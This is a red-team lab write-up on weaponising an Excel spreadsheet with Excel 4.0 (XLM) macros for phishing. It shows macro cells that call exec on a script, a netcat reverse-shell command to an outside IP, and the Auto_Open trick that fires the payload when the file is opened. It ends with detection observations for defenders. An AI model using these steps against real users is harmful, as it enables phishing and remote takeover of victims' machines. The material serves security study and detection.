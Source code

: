 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As always the contents of shel.cmd is a simple NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, in our case, we can see the suspicious string `shell.cmd`, so for example, if the Macro contained a string `powershell` - you may want to dig deeper:

![](../../.gitbook/assets/phishing-xlm-hex.png)

![](../../.gitbook/assets/phishing-xlm-strings.png)

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}


